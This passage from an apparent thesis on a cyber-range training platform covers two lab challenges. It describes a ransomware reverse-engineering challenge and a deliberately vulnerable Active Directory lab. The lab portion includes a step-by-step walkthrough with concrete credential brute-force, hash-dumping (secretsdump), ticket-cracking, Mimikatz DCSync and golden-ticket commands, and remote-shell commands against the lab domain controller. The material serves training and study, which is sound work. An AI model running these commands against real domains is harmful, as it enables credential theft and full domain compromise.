    
\includegraphics[width=6cm]{figures/ida_4.png}
    \caption{Patched Subroutine to Always Return \texttt{0x7DAB1D35h}.}
    \label{fig:ida_4}
\end{figure}

After the serial number check, the malware decodes a global variable using the above-mentioned serial number as a multi-byte XOR key. The final result string is ``thosefilesreallytiedthefoldertogether''. The next phase is related to starting the cryptography activities using Microsoft's Crypto API for file encryption. Firstly, the malware hashes the above-mentioned long string using SHA-1, deriving an AES-256 symmetric key. Later, it recursively enumerates every file in the ``briefcase'' directory and encrypts them. It uses Cipher Block Chaining (CBC) mode, being the Initialization Vector, the MD5 of the lower-cased name and the extension of each file. After this value is set, two handles to the file are obtained: one for reading and one for writing. The read content goes through the \textit{CryptEncrypt} function and is written back to the file in 16KB blocks.

If there is no file to be encrypted in the ``briefcase'' folder, the binary loads a resource, an image asking for a ransom, and sets it as the Desktop's Wallpaper, as shown in Fig. \ref{fig:ida_5} (p. \pageref{fig:ida_5}).

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/ida_5.png}
    \caption{Desktop Wallpaper.}
    \label{fig:ida_5}
\end{figure}

Ultimately, the trainee must decrypt a previously encrypted file inside the briefcase folder to find the secret flag. Given that the malware uses AES symmetric encryption, we can take advantage of the fact that the key used for encrypting files is the same as the one used for decrypting them. So, one possibility that is not so straightforward for solving the challenge is to patch the binary by replacing the \textit{CryptEncrypt} call for \textit{CryptDecrypt} by modifying the sample's Import Address Table (IAT) statically or at runtime using a debugger. The other possible solution that is publicly available in the project's open-source repository is a Python script that computes the decryption key of the AES algorithm being the SHA-1 hash of the string ``thosefilesreallytiedthefoldertogether'', taking into consideration Microsoft's \textit{CryptDeriveKey} inner workings\footnote{\url{https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptderivekey}}, plus the MD5 hash of the lowercase of the filename and extension as the Initialization Vector. The decrypted file content is then unpadded. By applying such operations over the initially encrypted file inside the ``briefcase'' folder, we obtain the secret flag.

% Network Structure (No External Network)
% Ansible (WinRMI Connection, Playbooks, etc)
% FireEye Scenario
% Reverse Engineering With Process Monitor, Process Explorer, PeStudio, Resource Hacker, IDA, x86dbg

\subsection{Active Directory Scenario} \label{sec:validation_ad_scenario}

The last custom-made challenge is Windows-based and goes through the Microsoft Active Directory (AD) technology. AD complies with a database (or directory) and a set of services that connect users to the network resources they need. The directory contains information on the running environment, which may include users and computers, as well as their permissions on what they are allowed to do. The use of AD Domain Controllers is a centralized way system administrators found to manage an entire domain, meaning a group of related users and computers. Multiple domains can be combined, forming a tree, and numerous trees form a forest. Typically, enterprise networks have many Domain Controllers synchronized with each other, meaning every time there is a user account password update, for instance, this information is replicated across the other Domain Controllers, so each stays up-to-date. User laptops and other devices that are part of the domain and do not run any service are not Domain Controllers. Instead, they are often called workstations.

The AD database contains information on several AD objects within the domain, including users, computers, printers, and shared folders across the network. AD objects have attributes and may contain other objects. Attributes can be something like the person's name, department, global identifiers, or the last logon time.

AD Domain Controllers rely on several protocols, such as LDAP and Kerberos, for authentication and authorization. Kerberos is the default authentication protocol AD uses and provides single sign-on access to subsequent network resources within the domain. Kerberos is based on encrypted tickets used when logging in the computers and accessing network shares, among others. Kerberos replaced an elder protocol named NTLM. Regarding LDAP, it is used when performing queries on the directory services for specific AD objects.

\subsubsection{Scenario Construction} \label{sec:validation_ad_scenario_construction}

The process of constructing this scenario is very similar to the structure presented in Section \ref{sec:validation_windows_vagrant_inside_linux_docker} (p. \pageref{sec:validation_windows_vagrant_inside_linux_docker}). The main difference is we do not use a Windows 10 Enterprise Vagrant box but a Windows Server 2022 Evaluation box\footnote{\url{https://app.vagrantup.com/peru/boxes/windows-server-2022-standard-x64-eval}}. This change was added because the scenario focuses on building a vulnerable AD Domain Controller, which needs an underlying Windows Server. The other difference between the ransomware scenario and the AD one is we now have an attacker machine sitting in the DMZ network, which simulates an attacker inside the organization's network. As with the ransomware scenario, we do not have an external network. The last added change concerned \textit{iptables} rules from our bastion host to the Windows Server VM. Previously, we only performed NAT and forwarding operations with respect to the RDP and WinRM/PSRP connection, as we only intended to access the remote VM using RDP and issue commands to it using the PSRP protocol. Now, as the challenge's focus is again attack-oriented, we want every type of traffic from our attacker machine to the bastion host to be redirected to the Windows Server VM. The only exception is SSH traffic because incoming connections to the bastion host should not be redirected to the Windows Server VM, as they are destined to the hypervisor container and not to the Windows Server VM. With this configuration set, we can issue attacks from the attacker machine to the Windows Server VM, knowing the traffic going through the bastion container will be correctly forwarded.

The development of a vulnerable AD Domain Controller was based on John Hammond's Active Directory Youtube series\footnote{\url{https://www.youtube.com/watch?v=pKtDQtsubio&list=PL1H1sBF1VAKVoU6Q2u7BBGPsnkn-rajlp}} and on currently existing GitHub sources\footnote{\url{https://github.com/WazeHell/vulnerable-AD}}.

% Same Configuration with Vagrant but uses Windows Server Vagrant Box & iptables changes.

The first configurations steps on our Windows Server VM are:

\begin{enumerate}
    \item Change the Domain Controller's hostname to \textit{DC01}.
    \item Install Active Directory Services and create a domain named \texttt{xyz.com}.
    \item Configure the DNS server as the Windows Server VM itself and create a reverse DNS zone.
    \item Create a private network share controlled by Domain Administrators. We move the secret flag into it.
    \item Allow Remote Desktop sessions to ordinary Domain users, as this is not enabled by default.
    \item Change the administrator accounts default passwords.
    \item Generate a vulnerable AD schema with a set of Domain users and the Domain groups they belong to, including information on the Domain Controller's local administrators. This schema is randomized on every new scenario execution.
    \item Taking the previously generated vulnerable AD schema, we configure our Domain Controller with several kinds of vulnerabilities the trainee can explore.
\end{enumerate}

The vulnerable configuration steps include the following:

\begin{itemize}
    \item Weaken the Domain Accounts password policy to allow weak passwords linked to user accounts.
    \item Create the AD Groups and Users and add them to the respective AD Group.
    \item Generate a vulnerable configuration to enable \textit{Kerberoasting} attacks. Essentially, we create a service account with a weak password and specify that future ticket requests to this service account should use the easily crackable ``RC4'' Kerberos Encryption type.
    \item Configuration suitable for \textit{AS-REP Roasting} attacks. A maximum of three user accounts is configured not to require Kerberos pre-authentication, enabling this kind of attack.
    \item Set a maximum of three AD user accounts as DNS Administrators.
    \item Set a maximum of three AD user accounts vulnerable to \textit{DCSync} attacks.
    \item Disable SMB Signing which enables the existence of man-in-the-middle (MiTM) attacks on the SMB Server. The SMB protocol is typically used for sharing access to files, printers, and other resources across the network.
\end{itemize}

\subsubsection{Active Directory Attacks} \label{sec:validation_ad_attacks}

Several Active Directory attacks can be performed due to the inherently vulnerable Domain Controller configuration. Some of them will be explored in Section \ref{sec:validation_ad_exploit} (p. \pageref{sec:validation_ad_exploit}). It is essential to mention that because a wide range of attacks can be performed in this scenario, the trainee may find many solutions to reach the secret flag. Other types of attacks may be worthless but still valuable concerning skills training.

% Kerberoasting
Starting with \textit{Kerberoasting}, an attack that attempts to gain access to the password hash of an Active Directory account with a Service Principle Name (SPN), an attribute that links a service to an AD user account. We need access to an authenticated domain user to perform this attack, even with insufficient privileges. The attack works by requesting a Kerberos service ticket from the Kerberos Ticket Granting Service (TGS) for an SPN. This ticket is then sent by the Kerberos Key Distribution Center (KDC) and is encrypted with the hash of the service account password associated with the SPN. The attack then works offline by trying to crack the password hash using brute-force techniques in order to obtain the plaintext SPN account password. With the service account password in hand, the threat actor can impersonate the service account and is granted access to any network resource associated with the compromised account. This attack tends to work because the Domain Controller does not check if the Domain user is authorized to access a specific service whenever the Domain user initiates a TGS request. On the other hand, the service enforces specific access policies, verifying whether the Domain user should indeed be granted access. This creates a sort of loophole where an offline brute-force attack can occur.

% AS-REP Roasting
\textit{AS-REP Roasting} attacks enable adversaries to steal password hashes of user accounts that have Kerberos pre-authentication disabled. When enabled, every time a user needs access to a resource, the Kerberos authentication process takes place. The user sends an Authentication Server Request (AS-REQ) message to the Domain Controller containing a timestamp which is encrypted with the hash of the user's password. Suppose the Domain Controller decrypts the timestamp using its stored version of the user's password hash. In that case, it sends back an Authentication Server Response (AS-REP) message that contains the Ticket Granting Ticket (TGT) issued by the Kerberos KDC. The TGT is later used for accessing resources required by the user. When pre-authentication is disabled, a malicious actor may request authentication data for any user, and the Domain Controller would return an AS-REP message. Since part of the AS-REP message is encrypted using the user's password, a malicious actor may attempt a brute-force attack to get the plaintext password. 

% DCSync
\textit{DCSync} attacks allow an attacker to simulate the behavior of a Domain Controller and request password hashes. This attack is commonly used to get the \textit{KRBTGT} password hash, which takes attackers a step closer to the \textit{Golden Ticket} attack. Typically, only high-privileged accounts have the necessary permissions to run these attacks. In our scenario, we enforce the necessary Domain replication privileges on randomly selected accounts: \textit{Replicating Directory Changes}, \textit{Replicating Directory Changes All}, and \textit{Replicating Directory Changes In Filtered Set}.

% Golden Ticket 
\textit{Golden Ticket} attacks are performed by threat actors that attempt to gain unlimited access to an AD domain and exploit a vulnerability in the Kerberos authentication protocol. For this, an attacker needs the password hash of the \textit{KRBTGT} user so it can impersonate the KDC to mint Kerberos tickets giving him the power to access any resource. Because the TGT is signed and encrypted with the \textit{KRBTGT} password hash, the Domain Controller will accept it as proof of identity and issue any TGS tickets for it.


% Silver Ticket
The \textit{Silver Ticket} attack is similar to the \textit{Golden Ticket}, but it does not grant an adversary unfettered access to the domain. It only enables the attacker to forge TGS tickets for specific services, meaning it is a less powerful attack. Essentially, the attacker crafts TGS tickets encrypted with the password hash of a service account he previously compromised.

% Pass-the-Ticket
The \textit{Pass the Ticket} attack enables adversaries to use stolen Kerberos tickets to authenticate resources. Both TGS tickets and TGT tickets can be stolen and reused. \textit{Pass the Hash} attacks abuses the NTLM authentication protocol to authenticate as a user without having its plaintext password. Both attacks are part of the so-called lateral movement and may be a start of \textit{DCSync} attacks and password hashing extractions from the \textit{NTDS.dit} file or the \textit{LSASS.exe} process memory, both storing password hashes from users with active sessions in the computer.

Other attacks include abusing SMB signing disabled and compromising user accounts part of the \textit{DNSAdmins} group, which can be later used to obtain access to the Domain Controller.

% Playbook steps
% Vulnerable Configuration (https://github.com/WazeHell/vulnerable-AD, allowed attacks, randomization)

\subsubsection{Exploits} \label{sec:validation_ad_exploit}

This section intends to explore attacks on our Active Directory scenario. During our attacks, we will use the following tools:

\begin{itemize}
    \item \textbf{CrackMapExec}, a post-exploitation tool that helps automate assessing the security of large Active Directory domains. It supports several types of attacks, including various protocols such as SMB, LDAP, WinRM, and Kerberos.
    \item \textbf{Impacket}, a collection of Python modules for working with network protocols that are extremely useful for attacking Active Directory networks.
    \item \textbf{Bloodhound}, an Active Directory reconnaissance and attack management tool that depicts the AD network graphically and uses graph theory to identify hidden relationships, sessions, user permissions, and attack paths in a domain.
    \item \textbf{Mimikatz}, a tool that can exploit Microsoft's Authentication systems. It can perform attacks such as: \textit{Pass the Hash}, \textit{Pass the Ticket}, \textit{Kerberoast Golden and Silver Tickets}, \textit{DCSync} attacks, among others. 
\end{itemize}

As in the Log4j scenario, we can start by doing some reconnaissance using, for instance, \textit{nmap}. We can view the hypervisor container with port 22 open, which is the machine responsible for redirecting traffic to the target Windows Server machine.

The next step is to grab a set of commonly used Active Directory users and a subset of the \textit{rockyou.txt} password dictionary to test if we can find some AD user accounts. At first, we need to register our hypervisor container as the attacker machine's DNS server. Then, we attempt to get some users using \textit{CME} with: \texttt{crackmapexec ldap 172.100.0.40 -u users.txt -p '' -k}, where \textit{172.100.0.40} is our bastion host, and the users file contains some of the commonly used AD usernames. The retrieved output checks for existing AD users, as well as information on the Domain Controller, for instance, the hostname (\textit{DC01}) and the domain we are currently targeting (\textit{xyz.com}). With this information in mind, we can also map an entry in the \texttt{/etc/hosts} file of the \texttt{dc01.xyz.com} domain to the \texttt{172.100.0.40} IP address.

We can then perform a brute-force attack using both the users and passwords dictionary, again, using \textit{CME} with \texttt{crackmapexec ldap dc01.xyz.com -u users.txt -p passwords\\.txt ---continue-on-success | grep '[+]'}. If we are lucky, we get a match between the AD users and their respective passwords. Then, we can test the login in the Domain Controller using the credentials of a match with: \texttt{crackmapexec smb dc01.xyz.com -u USERNAME -p PASSWORD}. We can use the command mentioned above and provide an extra \texttt{---pass-pol} flag to view the AD password policy, a \texttt{---users} flag to view the currently existing users, a \texttt{---groups} flag to view the existing groups, or a \texttt{---computers} flag to view the devices that are part of the AD domain. All this information is helpful to perform similar brute-force attacks, as we now have information on the used password policy, and we know which AD users exist. Notice that with the credentials of an AD user, it is possible to have a Remote Desktop session linking to the remote controller.

The next step is to use Bloodhound to view information on existing AD users and their groups. We first configure Bloodhound and then use the \textit{bloodhound-python} module, along with the previously fetched credentials of an AD user, and collect information on the Active Directory domain, using \texttt{bloodhound-python -u USERNAME -p PASSWORD -dc dc01.xyz.com -d xyz.com -c all}. This will generate a set of \textit{JSON} files which should then be imported into Bloodhound.

Bloodhound provides a realistic view of several AD objects. Fig. \ref{fig:bloodhound_ad_users} (p. \pageref{fig:bloodhound_ad_users}) lists the Domain Users. We can select each of them and view their attributes, the groups they belong to, their unique identifiers, and other relevant information.

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/bloodhound_ad_users.png}
    \caption{Bloodhound Active Directory Users.}
    \label{fig:bloodhound_ad_users}
\end{figure}

We can also, for instance, gather information on the Domain Controller's administrators, which combine local and Domain Administrators, as shown in Fig. \ref{fig:bloodhound_dc_admins} (p. \pageref{fig:bloodhound_dc_admins}). Here we see a randomly selected account as a local administrator for which we can attempt to get the plaintext password using brute-forcing techniques.

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/bloodhound_dc_admins.png}
    \caption{Bloodhound Domain Controller's Administrators.}
    \label{fig:bloodhound_dc_admins}
\end{figure}

Bloodhound also allows fetching AD user accounts vulnerable to \textit{Kerberoasting}, \textit{AS-REP Roasting}, and \textit{DCSync} attacks. We can also find dangerous permissions on Domain Users and Groups or legacy OS versions on computers belonging to the AD domain. Each may lead an attacker to a new attack path to obtain Domain Administrator privileges. At last, it allows the user to forge custom queries on the AD domain data, which turns this tool into one of the favorites for penetration testers. 

Moreover, we can use \textit{Impacket} WMIExec module to perform lateral movement. This module allows executing commands on a remote system and establishing a semi-interactive shell on the remote host. As our setup uses a bastion host, our connection is not directed to the Domain Controller, meaning we had to tweak a little some module files. After all this, we may run \texttt{impacket-wmiexec xyz.com/USERNAME:PASSWORD@dc01.xyz.com} to obtain a remote shell if we use the local administrator account. We can then check the privileges of the current user session with \texttt{whoami /priv}. We can also try the same command with \texttt{impacket-psexec}, but no remote shell is obtained because Windows flags this as a malicious operation. This attack works if the Domain Controller's Windows Defender is turned off. Simultaneously, we can also check for RDP Desktop access using \texttt{impacket-rdp\_check xyz.com/USERNAME:PASSWORD@dc01.xyz.com}.

\textit{Impacket} also provides an SMB Client module to list the available network shares. We can observe the \textit{SYSVOL} Domain Controller share listed, and also an \textit{INTERNAL} share, on which only Domain Administrators have read access. To test this, we run \texttt{impacket-smbclient xyz.com/USERNAME:PASSWORD@dc01.xyz.com}. This share is where our secret flag is located. 

Going more profound in the \textit{AS-REP Roasting} theme, we can use \textit{Kerbrute}\footnote{\url{https://github.com/TarlogicSecurity/kerbrute}} that similarly to \textit{CrackMapExec} performs brute-force attacks on specific users. Furthermore, it identifies which accounts have pre-authentication disabled, meaning they are vulnerable to this attack. If a match between a user and password is found, it saves the TGT ticket for each match found, which opens the door for \textit{Pass the Ticket} attacks. To perform the \textit{AS-REP Roasting} attack, we run \texttt{crackmapexec ldap dc01.xyz.com -u users.txt -p '' ---asreproast out.txt}, where the users' file contains the AD users with pre-authentication disabled found using \textit{Kerbrut}e. This command captures the AS-REP response. We then use \textit{hashcat} to crack it and obtain the plaintext password with \texttt{hashcat -m18200 out.txt passwords.txt}. 

It is time to enter the \textit{Kerberoasting} world. We will target service accounts, so we must enumerate every single one. For this, we brute-force the RID, the unique value representing an AD object. We can issue the command \texttt{crackmapexec smb dc01.xyz.com -u USERNAME -p PASSWORD -d xyz.com ---rid-brute}. Then, we create a file with the service account names and use the \textit{GetUserSPNs Impacket script}\footnote{\url{https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py}} with the credentials of an AD user account to get the TGS tickets of the vulnerable service account. The command is as follows \texttt{python getUserSPNs.py xyz.com/USERNAME:PASSWORD -usersfile users.txt -output\\file hashes.kerberoast}, and we then crack the tickets using \textit{hashcat} with \texttt{hashcat -m13\\100 ---force -a 0 hashes.kerberoast passwords.txt}.

The next attack is \textit{Pass the Ticket}, where we start by the fact that we have access to the local administrator account in the Domain Controller and use \textit{Impacket} to dump the NTLM hashes of the administrator account using \texttt{impacket-secretsdump -just-dc-ntlm xyz.com/USERNA\\ME:PASSWORD@dc01.xyz.com}. The next technique is called \textit{Overpass the Hash} because it uses an NT hash to obtain a Kerberos ticket that will be later used to impersonate a user. Then we grab the TGT ticket using the \textit{Impacket GetTGT} module with the command \texttt{impacket-getTGT xyz.com/Administrator -hashes  LMHASH:NTHASH}. Lastly, we export the \textit{KRB5CCNAM\\E} environment variable with the path of the TGT ticket, and we use \textit{Impacket's} WMIExec module to get an Administrator shell on the Domain Controller using the \textit{Pass the Ticket} attack. We can also use \textit{Impacket's} SMBClient module to access the \textit{internal} network share and grab the secret flag. This is the intended solution for solving the challenge.

% PsExec64
The unintended solution uses \textit{PsExec}\footnote{\url{https://learn.microsoft.com/en-us/sysinternals/downloads/psexec}} to perform Local Privilege Escalation, which allows a non-admin process to escalate to SYSTEM if we run \textit{PsExec} with \texttt{.\textbackslash PsExec64.exe -accept\\eula \textbackslash\textbackslash dc01 -s cmd} using the local administrator account on a Remote Desktop session. We then change the directory into the \textit{internal} network share folder and print out the flag.

% Golden Ticket & DCSync
To perform the \textit{Golden Ticket} attack, we first grab the NT hashes using \textit{Impacket's Secrets Dump} module, as before, and the domain SID with \texttt{crackmapexec ldap dc01.xyz.com -u USERNAME -p PASSWORD ---get-sid}. We can get a remote session using the local administrator account in the Domain Controller and using \textit{Mimikatz} in the remote machine, dump the \textit{KRBTGT} account hashes by performing a \textit{DCSync} attack with \texttt{lsadump::dcsync /domain:x\\yz.com /user:krbtgt}. Then, we craft the Golden Ticket using the obtained Domain SID and the \textit{KRBTGT} NT hash. To craft a Golden Ticket for the Administrator AD account, we run \texttt{kerberos::golden /domain:xyz.com /sid:AD\_DOMAIN\_SID /user:AD\_IMPERSON\\ATED\_USER /krbtgt:KRBTGT\_NTHASH /id:AD\_IMPERSONATED\_USER\_ID /ptt}. With not just a Domain Controller but also workstations, we should be able to run the attack and get administrator privileges in the Domain Controller.

% Abuse DNS Admins
Lastly, we can perform a DLL injection attack using a vulnerable AD account belonging to the \textit{DNSAdmins} group. Essentially, this DLL is a reverse shell that connects to the attacker machine, and the threat actor should be able to obtain \textit{SYSTEM} privileges on the Domain Controller machine. 

Our Domain Controller is vulnerable to a wide range of attacks. Some of them were presented above, but many others can be used to target the domain. As mentioned before, this scenario reveals itself as extremely useful as a way to provide the trainee with hands-on experiments for all the possible attacks.

\section{Imported Scenarios} \label{sec:validation_imported_scenarios}

By now, we should clearly know the scenario construction process. The most complex scenarios were detailed in Section \ref{sec:validation_custom_scenarios} (p. \pageref{sec:validation_custom_scenarios}), but the project supports the addition of already existing scenarios. To keep the same logic we followed so far, we opted for picking up scenarios that were already based in Docker. Through our research using platforms like CTFtime\footnote{\url{https://ctftime.org/}}, we chose scenarios from the 2023 DiceCTF\footnote{\url{https://ctf.dicega.ng/}} competition which are available in GitHub\footnote{\url{https://github.com/dicegang/dicectf-2023-challenges}}. The presented scenarios ranged from several categories:

\begin{itemize}
    \item \textbf{Web Exploitation}, which focuses on challenges related to security vulnerabilities in web applications.
    \item \textbf{Miscellaneous}, which point to random challenges requiring simple knowledge, logic, and patience to be solved.
    \item \textbf{Cryptography}-related challenges.
    \item \textbf{Binary Exploitation (\textit{Pwn})}, which comes down to finding a vulnerability in a Windows executable or Linux ELF and exploiting it to gain control over it.
\end{itemize}

A total of 23 challenges from the 2023 DiceCTF edition were imported. To enable this, a Python script was created to convert the scenarios from the format they were published on GitHub to the one our framework understands.

Every imported DiceCTF scenario typically has a YAML file that is core to understanding the challenge. There, we can find information on the challenge's name, author, a short description, where to find the secret flag, the files that should be provided to the trainee so he can have a deeper understanding of the presented code, and the ports that the scenario's containers should expose to the exterior.

With all this information in place, we organized our folder structure for each scenario. Our Python script first pulls the DiceCTF's GitHub repository and recursively looks for the challenges that use Docker. The ones that do not use it are, therefore, excluded. Other specific checks are also performed in this sense, for instance, challenges pinpointed to be excluded because their Docker setup is incompatible with our framework's setup, simply because they use Docker images that do not support the installation of \textit{python3} and \textit{iproute2} packages. Both these packages are required. The former is to be able to run Ansible playbooks, and the latter to configure static routes between containers.
Then, the script goes through the challenge mentioned above's YAML file and starts creating the scenario's variables file. As before, each scenario's vulnerable container is exposed via a domain, and the format followed by DiceCTF is \texttt{{CHALLENGE\_NAME}.mc.ax}. In our variable's file, we create the necessary configurations in the DNS server, reverse proxy, and the edge router's port forwarding. As each scenario is attack-oriented, we must include the attacker machine in the external network in our setup. This will be the machine in control of the trainee. The following tasks involve setting up the custom scenario's structure, which is very similar for each scenario. The only things that change are the created containers and the domain of the exposed service. If the scenario has two or more containers, the container's names are mapped via the DNS server, as usually happens in Docker. For instance, if a scenario deploys containers \texttt{app} and \texttt{mongo}, the \texttt{app} container may attempt to access the database using the \texttt{mongo} domain. As such, the \texttt{mongo} string must be mapped to the \texttt{mongo} container's IP address.

The last thing on this topic is a feature called \textit{AdminBot} that some scenarios make available. Essentially, this is another service that exposes both a back-end and a front-end. The attacker can request this back-end service to make an HTTP request to a domain of their choice, which can be the vulnerable server itself, as in most scenarios, or a randomly selected domain. Typically, this request incorporates a flag in it, for instance, in the form of a cookie. The \textit{AdminBot}, as shown in Fig. \ref{fig:admin_bot} (p. \pageref{fig:admin_bot}), is entirely available to the trainee. It works as an extra that can provide real aid when solving the challenge.

\begin{figure}[H]
